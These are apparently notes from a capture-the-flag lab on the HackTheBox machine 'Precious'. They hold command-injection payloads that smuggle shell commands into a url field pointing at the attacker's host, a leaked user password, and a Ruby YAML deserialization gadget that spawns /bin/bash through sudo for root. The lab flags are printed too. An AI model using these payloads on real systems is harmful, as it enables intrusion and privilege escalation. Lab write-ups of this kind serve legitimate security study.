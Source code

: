 # Precious

# Enumeration
## Nmap
SSH:    OpenSSH 8.4p1 Debian
HTTP:   nginx 1.18.0
        http://precious.htb
OS:     Linux

## Gobuster

## Web
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby

### URL checking
file:///etc/hosts -> 'You should provide a valid URL'

### RCE
POST /
url=http%3a//10.10.16.14%3a9001/shell.html$(COMMAND)
See results in server log

url=http%3a//10.10.16.14%3a9001/a$(cat$IFS$PWD/app/controllers/pdf.rb)
```ruby
class PdfControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    erb :'index'
  end

  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename

      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= 
```

url=http%3a//10.10.16.14%3a9001/a$(ls$IFS/home)
henry ruby

# Foothold
see http_serve/attack.py

# Access SSH
$ ssh ruby@10.129.103.94 -i ./ssh/ruby_rsa -v

Interesting files (linpeas):
/usr/bin/gettext.sh
/opt

Webserver files belong to root

# Henry credentials
$ cat ~/.bundle/config
henry:Q3c1AqGHtoI0aXAYFH

# User flag
henry $ cat user.txt
e8fdfab9c098de23c1c3fd9de67d2c12

# Root
/home/henry/dependencies.yml:
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash
         method_id: :resolve
```
$ sudo ruby /opt/update_dependencies.rb

# Root flag
root $ cat root.txt 
49606fa458927a0c3bc68a4ba831fad7
